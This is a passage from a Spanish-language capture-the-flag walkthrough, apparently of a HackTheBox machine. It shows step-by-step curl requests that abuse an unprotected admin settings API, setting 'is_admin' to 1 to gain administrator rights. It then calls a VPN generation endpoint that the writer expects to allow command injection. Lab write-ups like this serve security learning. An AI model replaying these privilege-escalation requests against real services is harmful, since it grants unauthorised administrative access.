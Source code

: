 ![api](Imagenes/22.png)

Nos sale la advertencia debido a que el content type debe ser json, por lo tanto lo especificamos en la petición:

```
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=169nu0ra8on4n5mq2v9tvds9jh" -H "Content-Type: application/json" | jq
```

![api](Imagenes/23.png)

Ahora nos pide un parámetro email, por lo tanto lo especificamos en la data enviada en la petición:

```
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=169nu0ra8on4n5mq2v9tvds9jh" -H "Content-Type: application/json" -d '{"email": "dani@dani.com"}' | jq
```

![api](Imagenes/24.png)

Ahora nos pide el parametro de especificar si es o no administrador, por lo tanto lo especificamos en la data enviada en la petición:

```
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=169nu0ra8on4n5mq2v9tvds9jh" -H "Content-Type: application/json" -d '{"email": "dani@dani.com", "is_admin": 1}' | jq
```

![api](Imagenes/25.png)

Como vemos, nos hemos convertido en administrador, asi que ahora podemos crear archivos openvpn para cualquier usuario (lo cual intuimos que nos pedira un parámetro que manejemos para introducirlo en un comando y podremos inyectar comandos):

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=169nu0ra8on4n5mq2v9tvds9jh" -H "Content-Type: application/json"
```
